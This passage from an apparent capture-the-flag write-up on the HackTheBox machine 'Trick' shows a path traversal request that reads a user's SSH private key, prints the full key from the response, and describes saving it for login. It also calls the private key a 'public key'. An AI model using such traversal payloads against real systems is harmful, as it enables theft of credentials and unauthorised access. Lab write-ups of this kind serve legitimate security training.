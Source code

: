 Now, we can infer somehow that in /home/michael we can find a .ssh folder with teh id_rsa public ssh signature. To download it, we can use burp and capture this petition:

```
http://preprod-marketing.trick.htb/index.php?page=..././..././..././..././..././home/michael/.ssh/id_rsa
```

As a result, we can download michael's public key to login via ssh:

```
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Thu, 20 Oct 2022 08:25:41 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 1823

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz
c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G
YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+
4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/
Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4
1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC
DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0
+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE
hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L
jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6
IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C
aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/
KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC
tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge
U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0
fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V
PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS
3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA
fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT
AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn
In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP
JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN
jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+
IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

Now we save it with the name we want and change its permissions:

```bash
nano key
# CTRl-MAY V to paste it
# CTRL-X, Yes and ENTER to save the buffer and exit
sudo chmod 400 key
```

